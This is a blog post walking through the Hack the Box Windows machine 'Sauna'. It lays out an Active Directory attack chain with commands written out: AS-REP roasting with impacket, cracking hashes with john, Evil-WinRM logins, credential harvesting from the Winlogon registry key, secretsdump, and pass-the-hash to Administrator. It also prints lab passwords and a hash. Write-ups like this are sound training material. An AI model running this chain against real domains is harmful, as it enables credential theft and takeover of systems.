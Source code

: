 +++
author = "Nick"
categories = ["hack the box", "windows", "easy", "evil-winrm", "impacket"]
date = 2020-07-18T14:59:00Z
description = ""
draft = false
thumbnail = "/images/2020/02/info.png"
slug = "hack-the-box-sauna"
summary = "Today's post is for the Hack the Box machine - Sauna. It's a Windows machine with a difficulty listed as easy. Let's jump in!"
tags = ["hack the box", "windows", "easy", "evil-winrm", "impacket"]
title = "Hack the Box - Sauna"

+++


Welcome back! Today's post is for the Hack the Box machine - Sauna. It's a Windows machine with a difficulty listed as easy. Let's jump in!

As always, we start with our standard `nmap` scan: `nmap -sC -sV -p- -oA all_ports 10.10.10.175`

```
Nmap scan report for 10.10.10.175
Host is up (0.055s latency).
Not shown: 65515 filtered ports
PORT      STATE SERVICE       VERSION
53/tcp    open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Egotistical Bank :: Home
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-02-21 04:11:24Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49671/tcp open  msrpc         Microsoft Windows RPC
49682/tcp open  msrpc         Microsoft Windows RPC
49692/tcp open  msrpc         Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=2/20%Time=5E4EE79D%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 8h01m23s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-02-21T04:13:44
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 393.56 seconds
```

We see a few things right off the bat. A site being hosted on port 80, LDAP, WinRM and RPC ports available as well as SMB. We get back a domain for LDAP, `EGOTISTICAL-BANK.LOCAL0`.

We'll start with enumerating the web site by hand. While we do that we'll also kick of a `gobuster` scan.

Command:
`gobuster dir -u http://10.10.10.175 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 15`

We'll also run the `nmap` script for ldap enumeration.

Command:
`nmap -n -sV --script "ldap*" -p 389 10.10.10.175`

We get a large output from this as well. At the bottom of the output we see we do indeed have a user. Hugo Smith. Now this doesn't quite match up with the users we saw on the about.html page, clever.

![](/images/2020/02/image.png)

We continue to enumerate the website but don't find anything. Our `gobuster` comes back with the same results we saw while we were manually browsing the site and source.

Now if you are familiar with attacking Windows machines you might be familiar with Kerberos and how much fun it is to break! In this case the first thing we are going to try is to leverage the Active Directory setting called 'Disabling Kerberos Pre-Authentication'. In short, [without Kerberos Pre-Authentication a malicious attacker can directly send a dummy request for authentication](https://social.technet.microsoft.com/wiki/contents/articles/23559.kerberos-pre-authentication-why-it-should-not-be-disabled.aspx). In order for this to work, we need a list of user. We have one user for sure. So we'll create a list of potential Active Directory names that this user could go by. 

```
hsmith
hugosmith
h.smith
hu.smith
hugo.smith
smith.hugo
smithh 
smith.h
```

Command:
`python3 GetNPUsers.py -format john -usersfile ~/Documents/htb/sauna/users.lst EGOTISTICAL-BANK.local/ -o ~/Documents/htb/sauna/impacket_output.txt
`

We get a hit on `hsmith`. Now we know the naming convention. We also noticed the about page with a list of the team members on it. We can then infer the names of these users in Active directory to have the same convention as above. We will compile them into a list and run that through the same impacket script.

```
fsmith
scoins
btaylor
sdriver
hbear
```

Once we do that we see four Session errors, but we have 5 users! We have a hash!

![](/images/2020/02/sauna-user.gif)

Now that we have a hash, let's crack it!

Command:
`john --wordlist=/usr/share/wordlists/rockyou.txt impacket_output.txt`

![](/images/2020/02/image-1.png)

We have a password of `Thestroke23`. Awesome, now we can potentially leverage this in `Evil-WinRM`.

![](/images/2020/02/image-2.png)

Turns out we can! We log in as fsmith and move right to the Desktop and snag our user.txt. Now it's time to start enumerating internally. We'll upload `WinPEAS` to the machine and run it to see what we can find.

Command:
`*Evil-WinRM* PS> upload /root/Tools/peas/winPEAS/winPEASbat/winPEAS.bat`
`*Evil-WinRM* PS> .\winPEAS.bat`

After you run the script, you should see some credentials. Alternatly, if you cannot get WinPEAS to run. You can run each of the queries it runs, manually. This isn't a terrible idea, especially if you could use some practice on enumerating your Windows machines. The key we are looking for is in this query:

Command:
`reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"`

![](/images/2020/02/image-3.png" caption=")

We see a set of stored credentials! Let's pivot to this user just like we did with fsmith. However, this username doesn't match up with the users we saw. The enumerated username as shown by `WinPEAS` or manual enumeration is svc_loanmgr.

Command:
`./evil-winrm.rb -i 10.10.10.175 -u svc_loanmgr -p 'Moneymakestheworldgoround!'`

![](/images/2020/02/image-4.png)

Once we've connected as this service account we can do a few things. Normally I use `Bloodhound` to enumerate a second account but before I try that I try some basic things like Impackets [`secretdump.py`](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py), WINpeas and some other internal commands. In this case, secrets dump works out!

Command:
`impacket-secretsdump -just-dc-ntlm egotisticalbank/svc_loanmgr@10.10.10.175`

![](/images/2020/02/sauna_secret_dump.gif)

You could also replicate this same technique by upload `mimikatz` and executing `lsadump`. Now we see we have an NTLM hash for our Administrator account. We have a few options.  We can crack the hash offline, we can use attempt to use some tools with these hashed credentials like `psexec.py` or we can login with the hash via `Evil-WinRM`. 

In this case I'll just login with `Evil-WinRM`.

Command:
`Evil-WinRM -i 10.10.10.175 -u Administrator -H d9485863c1e9e05851aa40cbb4ab9dff`

![](/images/2020/02/admin_winrm.gif)

And we are in! We head over to the Desktop and grab the flag! Root acquired! I hope you enjoyed this box. All in all I would say this is a great box for understanding Windows' entry techniques.

Think about sending me some respect over on HTB if you enjoyed the write-up! Here's my [profile](https://www.hackthebox.eu/home/users/profile/95635).



